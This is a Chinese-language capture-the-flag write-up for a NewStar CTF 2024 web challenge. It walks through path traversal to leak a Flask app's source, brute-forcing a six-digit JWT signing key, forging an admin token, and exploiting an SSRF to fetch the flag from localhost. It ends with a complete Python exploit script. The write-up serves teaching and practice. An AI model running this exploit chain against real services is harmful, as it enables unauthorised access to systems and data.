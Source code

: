 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# 这「照片」是你吗

查看网页源码：

```html
<!-- 图标能够正常显示耶! -->
<!-- 但是我好像没有看到 Niginx 或者 Apache 之类的东西 -->
<!-- 说明服务器脚本能够处理静态文件捏 -->
<!-- 那源码是不是可以用某些办法拿到呢! -->
```

很明显的提示，能够获得静态文件，但是没有用常见的反代服务来区别静态文件和服务型路由。

服务端处理文件和路由的逻辑很有可能会有漏洞。

简单的测试就能知道是路径穿越 + 任意文件读。

查看 Response Header，能够认出来是 Flask app，常用的 Flask 主程序名为为 `app.py`.

<Container type="info">

路径穿越常用 `../`，意为当前文件夹的上一层。
</Container>

本题将静态文件存储在了 `./static` 中，主程序在 `static` 外，那么使用 `GET /../app.py` 就可以拿到源码了。

::: tip
若直接在浏览器中访问带 `../` 的路径，会先被浏览器按照网址路径规则解析一遍 `../`，最终发出的并不是含这个字符串的路径，因此需要用发包软件发送过去。
:::

![发包获取源代码](/assets/images/wp/2024/week3/zhaopian_1.png)

<Container type="quote">

本题的漏洞代码是 `send_file("./static/" + file)`.

与 SQL 注入一样，直接拼接用户可控制输入的字符串是大忌！
</Container>

很轻松的，我们获得了主程序的源代码。

审计源码，可以知道我们要用 `admin` 用户登录来进入面板。两种方法：获取密码或者伪造 `token`.

首先来看密码的长度：

```python
base_key = str(uuid.uuid4()).split("-")
admin_pass = "".join([ _ for _ in base_key])
```

`admin` 的密码长度是 32 个字符，而整个程序有登录次数限制，因此无法爆破密码来登录。

而伪造 `token` 则需要 `secret_key`，查看生成逻辑：

```python
secret_key = get_random_number_string(6)
```

6 位数字字符串，可以在数秒内完成爆破。

```python
users = {
    'admin': admin_pass,
    'amiya': "114514"
}
```

通过本段代码我们可以知道一个有效账户 `amiya`，密码 `114514`，通过发包登录，我们可以获得一个有效的 `token`，据此能在本地认证签名 `secret_key` 的有效性（因为目标主机有认证次数限制）。

<Container type="quote">

用明文存密码也是大忌！安全的做法是存储哈希值，并且加入一定的盐值（Salt）。
</Container>

爆破出 `secret_key`，然后查看登录后的逻辑：

前端请求 `/execute` 指定 `api_address`，而 `api_address` 可控且没有校验，存在 SSRF 漏洞。

定位到源代码开头：

```python
from flag import get_random_number_string
```

这是出题人故意漏的信息，将函数写在了 flag 模块并 import，提示查看 `flag.py`

```python
@get_flag.route("/fl4g")
# 如何触发它呢?
def flag():
    return FLAG
```

::: tip
Python 程序可以 import 同一目录下的 `.py` 文件而不必创建 `__init__.py` 等标记模块的文件。因此这里同级目录下有文件名为 `flag.py` 的程序，模块名为 `flag`.
:::

我们的操作很明确了：利用 `/execute` 路由的 SSRF 漏洞让服务器自己访问 `http://localhost:5001/fl4g`，即访问 `/execute?api_address=http://localhost:5001/fl4g`.

EXP 如下：

```python
import time
import requests
import jwt
import sys

if len(sys.argv) < 2:
    print(f"Usage: python {sys.argv[0]} <url>")
    sys.exit(1)

url = sys.argv[-1]


def get_number_string(number,length):
    return str(number).zfill(length)

print("[+] Exploit for newstar-zhezhaopianshinima")
print("[+] Getting a valid token from the server")

LENGTH = 6
req = requests.post(url+"/login", data={"username":"amiya","password":"114514"})
token = req.cookies.get("token")

print(f"[+] Got token: {token}")
print("[+] Brute forcing the secret key")
for i in range(1000000):
    secret_key = get_number_string(i,LENGTH)
    try:
        decoded = jwt.decode(token, secret_key, algorithms=["HS256"])
        break
    except jwt.exceptions.InvalidSignatureError:
        continue

print(f"[+] Found secret key: {secret_key}")
fake_token = jwt.encode({'user': 'admin', 'exp': int(time.time()) + 600}, secret_key)

print(f"[+] Generated a fake token: {fake_token}")

print("[+] Getting the flag")
req = requests.get(url+"/execute?api_address=http://localhost:5001/fl4g", cookies={"token":fake_token})

print(f"[+] Flag: {req.text}")
```
